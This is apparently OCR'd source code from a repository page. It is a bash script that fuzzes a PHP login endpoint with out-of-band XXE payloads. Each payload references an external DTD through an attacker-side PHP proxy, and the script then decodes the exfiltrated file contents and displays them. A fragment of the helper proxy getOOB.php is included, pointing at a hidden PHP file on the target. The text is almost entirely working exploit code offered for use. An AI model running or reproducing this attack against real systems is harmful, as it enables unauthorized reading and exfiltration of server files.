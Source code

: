 ```bash

for F in `cat Filenames_PHP_Common.wordlist`
do
	FILENAME=$FOLDER_TOFUZZ$F
#	echo -e "File name: " $FILENAME
	
	XML="<?xml version='1.0'?>
	<!DOCTYPE xxe [ 
		<!ENTITY % EvilDTD SYSTEM '$PHP_PROXY$FILENAME'>
		%EvilDTD;
		%LoadOOBEnt;
		%OOB;
	]>
	<login>
	   <username>XXEME</username>
	   <password>password</password>
	</login>"
	response=$(curl -s "$LOGIN_PATH" --data "$XML" --header "AuthXXE:login");
	printf "%-60s %s\n" "$FILENAME" `echo -en [$(tput setaf 2)Sent$(tput sgr0)]`

#	cleaned=$(echo $response | awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' | sed 's/\\\//\//g' | base64 -d);
#	echo -e "File content: \n$cleaned"
	
done

echo -e "\n\n"
read -p "All request have been sent! Let's parse the results ... press any key to continue"
echo -e "\n\n"

for F in $XXESERVE_FILES ; do
	content=`cat $F` 
	# When the Base64 is saved from URL the + is transformed to <space>, 
	# so let's get it back and decode!
	content=`echo "$content"| tr ' ' '+' | base64 -d`

	if [[ ! "$content" =~ "<HIDE_ME_PLEASE>" ]];
	then
		printf "%-30s %s\n" "$F" `echo -en [$(tput setab 1)Fake$(tput sgr0)]`
	else
		printf "%-30s %s\n" "$F" `echo -en [$(tput setab 2)Cool$(tput sgr0)]`
		
		#	Echo file content in green		
		echo -e "\n"
		printf "%s" `echo -en $(tput setab 2)Check-out here: $(tput sgr0)` 
		echo "$(tput setaf 2)";
		echo -e "\n\n$content";
		echo "$(tput sgr0) ";
		read -p "Continue... "
	fi
done

echo -e "\n\n\t\tEND";
echo -e "===========================================";
exit;

```
In conjunction with the helper proxy getOOB.php:
```php
<?php
# Simple proxy script to echo custom XML payloads

$resource = "/var/www/7/.letmepass.php";
```